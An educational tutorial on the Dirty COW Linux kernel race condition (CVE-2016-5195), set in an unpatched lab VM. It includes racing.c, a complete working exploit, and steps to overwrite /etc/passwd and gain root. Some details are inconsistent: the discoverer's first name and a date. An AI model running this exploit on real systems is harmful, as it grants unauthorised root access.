



# Dirty COW (Copy-On-Write) #
*Linux Kernel Vulnerability Explanation and Tutorial by Jakub Hladik*

**November 17, 2017**

### Introduction ###
Dirty copy-on-write is a serious Linux kernel vulnerability which allows local privilege escalation through a race condition in the kernel's implementation of memory-management.

The dirty copy-on-write exploit allows an attacker to gain a write access to read-only files. This can lead to escalating privileges on any device. After a successful exploit, which usually takes only a couple of seconds, an attacker can damage valuable files, rendering a device unusable, or gain root privileges and install malicious software into any device without the user ever knowing. The attacker has a root access to the entire device and therefore it is up to the attacker what to do with it.

### History ###
This security issue was discovered by a security researcher Phil Oester who was doing forensic analysis on some of his web servers and happened to find an executable exploit uploaded by an attacker. He was able to extract the version of GCC which compiled the source code. It turned out to be GCC 4.8.5 which was released on June 23, 2016, though this should not imply that the exploit was not available earlier. The vulnerability has existed since the Linux kernel version 2.6.22 released in 2007.

### Affected Systems ###
Every device running Linux kernel-based operating system, including servers, industrial computers, desktops, laptops, and mobile devices, with kernel version newer than 2.6.22 and older than 4.8.3 is affected unless the operating system is patched. Major Linux distributions provided patches only a couple of hours after the vulnerability was publicly disclosed on October 19, 2016. Linux kernel fix was released a day before the public disclosure as Paul Oester informed Linus Torvalds, the creator of Linux, about the vulnerability beforehand so that Linus can produce a patch for others to use.

It is important to note that one of the most popular mobile operating systems, Android, running on more than 2 billion devices world-wide,  is also affected as it is based on the Linux kernel. As manufacturers have to create their own drivers for their smart phones, the release of new version of Android becomes somewhat complicated. One of the common scenarios is that Google, the creator and maintainer of Android, releases a new version, but it is up to the phone manufacturer or sometimes even the carrier when to release the update to their phones. This leaves countless users with a vulnerable phone in their pockets. Devices running Android version 5.1.1 or older, which accounts for 48.2% of all Android devices (as of November 2018), are susceptible to the attack.

As of September 2017, more than 1,200 apps available in third-party market places contain dirty copy-on-write exploit to run text-based payment services to make fraudulent charges to the phone owner as reported by researchers of the antivirus firm Trend Micro.

### Security Impact ###
The severity of this vulnerability ([CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195)) is high, as indicated by the CVSS (Common Vulnerability Scoring System) Base Score of 7.8 published by the NIST. The complexity of the attack is low, as well as the privileges required. The dirty copy-on-write vulnerability severely breaks all three classes of the CIA triad–confidentiality, integrity, and availability.

### Vulnerability ###
Linux kernel offers system calls for mapping files from disks into the memory for cases where we need to open a file that is very large or when we need to share a file resource between two processes. The system calls involved in the dirty copy-on-write are `mmap()`, `madvise()`, and `write()`. The system call `mmap()` tells the kernel to map a file to a memory region, `madvise()` informs the kernel what the intended future use for that memory region is, and `write()` tells the kernel to write bytes into the memory region. It is important to note that most of these system calls are not atomic. That means, in a multi-threaded program, we can have a context switch happen in middle of a `write()` operation. It is this non-atomic nature of the `write()` call for writing into a memory-mapped read-only file and insufficient programmatic check for the race condition which causes the dirty copy-on-write vulnerability to exist.

Before we dive too deep into the theory and let's look at how memory mapping works and explore the entire vulnerability below

### Setup
The tutorial provided is a set of three programs that will help you understand the copy-on-write exploit.

You will need a virtual machine running the unpatched version of the vulnerable Linux kernel. I successfully tested the code on 64-bit Ubuntu Desktop 16.04.1. This version of Ubuntu is running Linux kernel version 4.4.0. The distribution iso image is available [here](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04.1-desktop-amd64.iso).

Before you first start your virtual machine, make sure to disable the "virtual" network adapter in the virtual machine settings. This will prevent Ubuntu from receiving the important security update which triggers automatically.

After you install Ubuntu, go to Settings->Software & Updates->Updates (tab) and in "When there are security updates" select "Display immediately" instead of "Download and install immediately". Confirm it with OK. This will prevent Ubuntu from installing the kernel patch thus making dirty copy-on-write impossible.

Now you can shut the virtual machine off and go back into the machine's settings and re-enable the network adapter to gain internet access on your machine.

Now that you have a vulnerable virtual system running, let's get to programming.

#### Mapping Files to Memory ####
The system call `mmap()` maps a file directly into our memory. In the example below, we will open a file called `test` which you have to create and place it to the directory where your executable resides. Feel free to put any contents into the file. You can create a file with dummy content by running the following:

```bash
$ echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa > test
```

You can verify the contents of the file by running the following command, obtaining the content.

```bash
$ cat test
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Now, read through the program and try to understand what is happening.

```c
// mmap.c
// example of using mmap to read and write file content
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>

#define CONTENT_LENGTH 40
#define CONTENT_OFFSET 5

int main() 
{
  struct stat st;
  char content[CONTENT_LENGTH];
  char *new_content = "---written using mmap---";
  void *map;

  // get file descriptor, read and write access mode
  int f = open("./test", O_RDWR);
  // get file status
  fstat(f, &st);
 
  // map file "test" into memory 
  map = mmap(NULL, st.st_size, PROT_READ | PROT_WRITE, MAP_SHARED, f, 0);
 
  // perform memcpy from the mapped region to our string 
  memcpy((void *)(content), map, CONTENT_LENGTH);
  printf("reading: %s\n", content);

  // perform memcpy from new_content to the mapped region
  memcpy(map + CONTENT_OFFSET, (void *)(new_content), strlen(new_content));

  // unmap the region and close the file
  munmap(map, st.st_size);
  close(f);
  return 0;
}

```
You can compile and run this file with:

```bash
$ gcc -o mmap mmap.c
$ ./mmap
```

Let's analyze this program in sections.

```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
```
These are the header files needed for memory mapping and file operations.

```c
#define CONTENT_LENGTH 40
#define CONTENT_OFFSET 5
```
The defines are help us make code more reusable. We use the `CONTENT_LENGTH` to define how big of a buffer we need for reading. We could define it after we get the size of the target file but I wanted to keep the code as simple as possible so it is defined statically here.

`CONTENT_OFFSET` defines how far into the file we want to start writing our message. If the offset is 5, the the code will preserve the first 'aaaaa' and then start overwriting the file.


```c
struct stat st;
```
Declares structure to hold file status–file inode information including file size, permissions, etc.


```c
char content[CONTENT_LENGTH];
```
Buffer for reading.

```c
char *new_content = "---written using mmap---";
```
Content to be written into the memory-mapped file.


```c
void *map;
```
Pointer to hold the pointer pointing to the memory region where the kernel mapped the file to.

```c
  int f = open("./test", O_RDWR);
```
Gets file descriptor for the file `test` in read and write mode (`O_RDWR`).

```c
fstat(f, &st);
```
Gets the file status and saves it in `st`. We do this to obtain the file size.

```c
map = mmap(NULL, st.st_size, PROT_READ | PROT_WRITE, MAP_SHARED, f, 0);
```
Map the file `test` into the memory in `MAP_SHARED` mode, with read and write protection (discussed later).

```c
memcpy((void *)(content), map, CONTENT_LENGTH);
printf("reading: %s\n", content);
```
Copy `CONTENT_LENGTH`-many bytes from the memory-mapped file memory location into our buffer `content`. Since we mapped the file into memory, we can use regular memory operation to access and write the content. Finally, the `printf()` statement prints out the contents of the buffer.

```c
memcpy(map + CONTENT_OFFSET, (void *)(new_content), strlen(new_content));
```
Copy the `new_content` buffer bytes into our memory-mapped file memory location starting at offset `CONTENT_OFFSET`.

```c
munmap(map, st.st_size);
close(f);
return 0;
```
Clean up after we are done. `munmap()` tells the kernel that we are done with the memory mapping and the memory space allocated for the file can be used for something else. `close(f)` gets rid of the file descriptor and finally `return` terminates the process.

To understand what is going on when we call mmap(), lets look at the situation graphically.



As you can see the file is mapped from its origin (disk) into memory using the `mmap()` system call. `mmap()` returns a pointer which points to the first byte of the memory region where the file is mapped. Do not forget that the addresses we deal with in the computer are virtual addresses and have to go through address translation process during run-time to get the actual physical address of where in memory the file contents resides. We will get back to the address translation later.

When we write into the memory location where the file contents is mapped to, the memory map gets flagged as modified and it is the responsibility of the operating system to write it back to the disk. This operation happens on `unmap()` system call. The operating system now nows we are done with the memory map and check whether it has been modified. Since we opened the map in `MAP_SHARED` mode and `PROT_WRITE` protection, it gets written back to the disk.

#### Private Mapping of Read-Only Files ####

Let's do an experiment with a read-only file to gain a little more knowledge before attempting the exploit. The code is fairly similar to the code we have already ran, but there are a few differences.

We will need to create a read-only file. The simplest way to do so is to create a file as a root. You can run the following to create a read-only file.

```bash
$ su -c "echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa > test"
```
Now we can check that the file `test` is truly read-only.

```bash
$ ls -l test
-rw-r--r-- 1 root root 29 Nov 17 02:24 test
```
We can also attempt to write into it as a regular user.

```bash
$ echo "lets write readonly" > test
bash: test: Permission denied
```

As expected, we cannot write to a read-only file as a regular user. 

Let's look at the following code now.

```c
// mmap_private.c
// example of using mmap create a read-only file mapping
#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>

#define CONTENT_LENGTH 40
#define CONTENT_OFFSET 5

int main() 
{
  struct stat st;
  char content[CONTENT_LENGTH];
  char *new_content = "---written using mmap---";
  void *map;

  // get file descriptor, readonly access mode
  int f = open("./test", O_RDONLY);
  // get file status
  fstat(f, &st);
 
  // map file "test" into memory 
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
  //map = mmap(NULL, st.st_size, PROT_READ, MAP_SHARED, f, 0);
  int fm = open("/proc/self/mem", O_RDWR);
  
  // read bytes from memory into content
  lseek(fm, (uintptr_t) map, SEEK_SET);
  read(fm, content, st.st_size); content[CONTENT_LENGTH-1] = '\0';
  printf("reading: %s\n", content); 
  

  // write bytes starting at CONTENT_OFFSET into memory
  lseek(fm, (uintptr_t) map + CONTENT_OFFSET, SEEK_SET);  
  int result = write(fm, new_content, strlen(new_content));
  if (result == -1) printf("write failed\n");
  else printf("write successful\n");
  

  // read changed bytes from memory into content
  lseek(fm, (uintptr_t) map, SEEK_SET);
  read(fm, content, st.st_size); content[CONTENT_LENGTH-1] = '\0';
  printf("reading: %s\n", content);

  // tell the kernel we dont need this page anymore
  madvise(map, CONTENT_LENGTH, MADV_DONTNEED);
  
  // unmap the region and close the file
  munmap(map, st.st_size);
  close(f);
  return 0;
}
```
You can compile and run this file with:

```bash
$ gcc -o mmap_private mmap_private.c
$ ./mmap_private
```

Let's analyze the differences from the previous code.

```c
map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
```
This time we are opening a read-only file. Therefore, we need to open it appropriately, otherwise the kernel will not allow us to map it. We are using `PROT_READ` to signify we only need a read right to the memory map and `MAP_PRIVATE` to signify that the mapping is private. More on this later.

```c
int fm = open("/proc/self/mem", O_RDWR);
```
In Linux operating system, almost everything acts as file that we can write and read out of for simplicity, even devices. Here, we are getting a file descriptor for memory of our own process. We are asking for read and write access. This is necessary because we will be writing into a "read-only" mapping. If we used memcpy, the operating system would complain because it knows we cannot write into it. However, if we write into the memory on the low-level, it will actually write into the memory. Do not get too excited, because the Linux kernel will not allow to write it back into the file.

```c
lseek(fm, (uintptr_t) map, SEEK_SET);
```
To be able to use the `read()` system call which follows shortly, we need to tell the `read()` where to start. This is done by calling `lseek()` system call and the virtual address–our map pointer.

```c
read(fm, content, st.st_size);
```
Read `st.st_size`-many bytes (file length) from fm (our memory) into the buffer `content`. We print the buffer and you see that we read our file.

```c
int result = write(fm, new_content, strlen(new_content));
```
Now, after re-seeking to our `CONTENT_OFFSET` we are going to write into the memory. We save the status of the operation into variable `result` to check whether the `write()` was successful.

After the write, we read the memory again into our buffer and you see that we over wrote the contents in that memory area. Wohoo! Well, maybe not. We will see.

```c
madvise(map, CONTENT_LENGTH, MADV_DONTNEED);
```
This line is not as important in this example but it will be very soon. `madvise()` tells the kernel that the area pointed to by map, spanning over `CONTENT_LENGTH` bytes is not needed at this point and the kernel's page replacement algorithm can take that into consideration when replacing pages. This system call is available purely for performance increase and it is not generally needed. However, we will use it in our exploit later.

Alright, let's see how we wrote into our read-only file as a regular user. Let's run the following command and observe the contents of the file `test`.

```bash
$ cat test
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

What? Why didn't it work? Well, it's not as simple to trick the Linux kernel to do something sinister.

Remember the `MAP_PRIVATE` when we called `mmap()`? When we create a private mapping of memory and attempt to write into it, the operating system will create a copy of the memory-mapped file memory location and we are only writing into the copy. This is called **copy-on-write**. Now you know what the "cow" is all about.

When we are done with this private copy, the operating system simply discards it because this copy is not directly related to the file on the disk. Then it looks at the original and since it has not been modified ("**dirty**" in operating system jargon means modified whereas clean means untouched), no change on disk is necessary. Hopefully the term "dirty cow" makes more sense now.

Let's illustrate what happens after we call `write()`.



Everything else stays the same as it was in the previous code example until we call `write()`. Since the mapping is private, a `write()` will cause a copy-on-write. In other words, the kernel will provide us a copy to write into. Now it is important to realize that the physical address of the copy is different from the original but the virtual is not. The virtual address saved in our `map` pointer stays the same but the translated physical address is now different. The `write()` change is signified in red in the drawing. When we call either `madvise()` or `unmap()`, the following happens.



The copy gets discarded, the pointer now points to the original address, the kernel checks whether there are any changes to be written to disk (no changes in our case because we only wrote to the copy) and the file contents is deallocated from the memory.

This explains why we were able to write into the memory and yet we did not change the contents of the file. Let's add threads to be able to change the contents of a read-only file.


#### Racing Threads ####
In this example, we are actually going to write into a read-only file. The `write_thread` is running `write()` which writes into the memory-mapped file memory location. Note that the write operation is not an atomic operation.
At the same time, the `madvise_thread` is constantly running `madvise()` to tell the kernel that the section of allocated memory is not needed and can be freed the future.

```c
// racing.c
// example of writing into a read-only file
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/stat.h>

// read-only file we want to write into
#define CONTENT_FILE "test"
// string to write
#define CONTENT_STRING "---THIS WAS WRITTEN BY DIRTY COW---"
// byte offset of the starting location to write to 
#define CONTENT_OFFSET 10

void *map;
pthread_t write_thread, madvise_thread;
struct stat st;
char *new_content = CONTENT_STRING;

void *madvise_worker(void *arg)
{
  while(1) {
    // tell the kernel that the memory-mapped file memory
    // section is no longer needed and can be freed
    madvise(map, st.st_size, MADV_DONTNEED);
  }
}

void *write_worker(void *arg)
{
  // open memory file descriptor in read-write mode
  int f = open("/proc/self/mem", O_RDWR);
  
  while(1) {
    // find the offset we are interested in writing
    lseek(f, (uintptr_t) map + CONTENT_OFFSET, SEEK_SET);
    // write new_contents starting at the current offset
    write(f, new_content, strlen(new_content));
  }
}

int main()
{
  // get the file descriptor, read-only mode
  int f = open(CONTENT_FILE, O_RDONLY);
  // get file status (we need size)
  fstat(f, &st);
  
  // map file to memory, in read-only and private mode
  map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

  // create threads
  pthread_create(&write_thread, NULL, write_worker, NULL);
  pthread_create(&madvise_thread, NULL, madvise_worker, NULL);

  // wait for the threads to finish
  pthread_join(write_thread, NULL);
  pthread_join(madvise_thread, NULL);

  return 0;
}
```

The code should be self-explanatory so let's run it right away.  We will analyze the program on thread-level later.

Compile this file with:

```bash
$ gcc -o racing racing.c -lpthread
```

You will also need a testing file. To make file truly read-only, create the file as root.

```bash
$ su -c "echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa > test"
```
Now we can check that the file `test` is truly read only.

```bash
$ ls -l test
-rw-r--r-- 1 root root 29 Nov 17 02:24 test
```
We can also attempt to write into it as a regular user.

```bash
$ echo "lets write readonly" > test
bash: test: Permission denied
```
And finally, let's just make sure the file contains what we wrote into it.

```bash
$ cat test
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Now, you can run the program.

```bash
$ ./racing
```

After three seconds or so, press `Ctrl+C` to kill the program. Now show the contents of the test file and check the permissions. It should be the following.

```bash
$ cat test
aaaaaaaaaa---THIS WAS WRITTEN BY DIRTY COW---aaaaaaaaaaa
$ ls -l test
-rw-r--r-- 1 root root 29 Nov 17 02:24 test
```

Wow! We have written stuff into a read-only, root-owned file as a regular user! How is that possible? Let's talk about what is happening behind the scenes.

After you run the program, two threads will start running concurrently. Let's go over what each thread does.

`write_thread` does the following:

1. Since we are attempting to write in `MAP_PRIVATE` mode, write will first create a private copy of the memory-mapped file and change the mapping of the virtual address to the newly mapped private copy physical address.
2. Write data into the memory location pointed by map. In this case, it is the private copy.

`madvise_thread` does the following:

1. Let the operating system know that the memory map is no longer needed and it may be freed in the future. The operating system may free it right away or some time in the future.

This process repeats forever until we kill the program. However, we are looking for a specific sequence of context switches which allows us to exploit the racing condition.

The non-atomic nature of the `write()` operation inside the `write_thread` can cause a context switch from the `write_thread` to `madvise_thread` after the kernel creates a private copy (1) and before the actual write into the private copy happens (2). Next, the `madvise_thread` will "deallocate" the private copy by changing the mapping of virtual address to the old, original physical address of the memory-mapped file location which should be read-only. If we get another context switch to occur after the physical address has been updated from the private copy to the original location, `write_thread` will take over and perform a write into the **same** virtual address but different physical address that it originally intended thanks to `madvise_thread`.

The vulnerability in the memory mapped `write()` is due to the absence of checking whether the memory page that is being checked for dirtiness had a copy that was previously deallocated. Linus Torvalds added a new flag and checking for this state into the code which deals with the copy-on-write to fix this vulnerability. You can find Linus' git commit which fixed the issue [here](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619). This fix is included in the Linux kernel since version 4.8.3.

#### Escalating Privileges With Racing Threads ####
We can modify the program to gain root privileges. To do that, we will need to modify UID inside the `/etc/passwd` file. Locate your user entry in the `/etc/passwd`. You can use the following command:

```bash
$ cat /etc/passwd | grep -b <<your_username>>
```
`grep` will return the byte offset of the first character on the line. We are interested in the byte offset of the first decimal number on that line. This number is the UID (User ID) and we need to change it to 0 to become root. Since we know the byte offset of the first character of the line, simply start counting at that number and count up to the first digit of the number, this is our byte offset. You can verify the byte offset is correct with the following command:

```bash
$ dd if=/etc/passwd bs=1 count=4 status=none skip=<<your_offset>>
```
Make sure to change the count to how many digits your UID is. It is a four digit number in most cases. Once you verified your offset, enter it in the `CONTENT_OFFSET` in the `racing.c` file to whatever your byte offset is. Next, change the `CONTENT_STRING` to `0000` or how many digits your original UID is.
The top of the file `racing.c` should now look something like this:

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/stat.h>

// read-only file we want to write into
#define CONTENT_FILE "/etc/passwd"
// string to write
#define CONTENT_STRING "0000"
// byte offset of the starting location to write to 
#define CONTENT_OFFSET 2999
```
Compile the file with:

```bash
$ gcc -o rootkit racing.c -lpthread
```

Before executing the program, make sure to read **Kernel Panic Workaround** section first as it is possible that your system might panic unless action is taken. When you are ready, execute the program:

```bash
$ ./rootkit
```
The program runs infinite loops and never finishes, therefore you have to kill it after a couple of seconds. I found three seconds to be sufficient to perform a dirty copy-on-write. Press `Ctrl+C` to terminate the program. Now you need to logout and login. You should be in a root shell now. Make sure to run

```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```
as soon as possible to avoid possible kernel panic.
You have successfully gained root privileges to the system.

##### Kernel Panic Workaround
Some machine exhibit kernel panic behavior when attempting the dirty copy-on-write exploit after modifying the `/etc/passwd`. There are currently two workarounds.

After you log in as x, root shell will pop up. Make sure to enter the following line or the system will panic after a couple of seconds. It helps if you execute this line before you become root to save it in your shell command history buffer, then access it with the up arrow. You can also use the copy and paste if you are in the graphical user interface mode. However, it is possible to type and execute this command in the period of time before the kernel panic occurs.

```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```
–or–

if you have access to the physical device, 

```bash
passwd
```
and the shell will prompt you to enter a new root password. Change it to whatever you like but I would recommend something short. Remember to do this fairly swiftly as the kernel panic can happen any second. Shut the device off and turn it back on. After the device boots up, you can log in as root with your new root password.

### References ###
* [https://access.redhat.com/security/cve/cve-2016-5195](https://access.redhat.com/security/cve/cve-2016-5195)
* [https://www.linuxfoundation.org/blog/how-bad-is-dirty-cow/](https://www.linuxfoundation.org/blog/how-bad-is-dirty-cow/)
* [https://access.redhat.com/security/vulnerabilities/DirtyCow](https://access.redhat.com/security/vulnerabilities/DirtyCow)
* [https://dirtycow.ninja](https://dirtycow.ninja)
* [https://www.v3.co.uk/v3-uk/news/2474845/linux-users-urged-to-protect-against-dirty-cow-security-flaw](https://www.v3.co.uk/v3-uk/news/2474845/linux-users-urged-to-protect-against-dirty-cow-security-flaw)
* [https://arstechnica.com/information-technology/2016/10/android-phones-rooted-by-most-serious-linux-escalation-bug-ever/](https://arstechnica.com/information-technology/2016/10/android-phones-rooted-by-most-serious-linux-escalation-bug-ever/)
* [https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619)
* [https://arstechnica.com/information-technology/2016/10/most-serious-linux-privilege-escalation-bug-ever-is-under-active-exploit/](https://arstechnica.com/information-technology/2016/10/most-serious-linux-privilege-escalation-bug-ever-is-under-active-exploit/)
* [https://developer.android.com/about/dashboards/index.html](https://developer.android.com/about/dashboards/index.html)
* [http://blog.trendmicro.com/trendlabs-security-intelligence/zniu-first-android-malware-exploit-dirty-cow-vulnerability/](http://blog.trendmicro.com/trendlabs-security-intelligence/zniu-first-android-malware-exploit-dirty-cow-vulnerability/)
* [https://www.youtube.com/watch?v=PCKhmPTDurg](https://www.youtube.com/watch?v=PCKhmPTDurg)
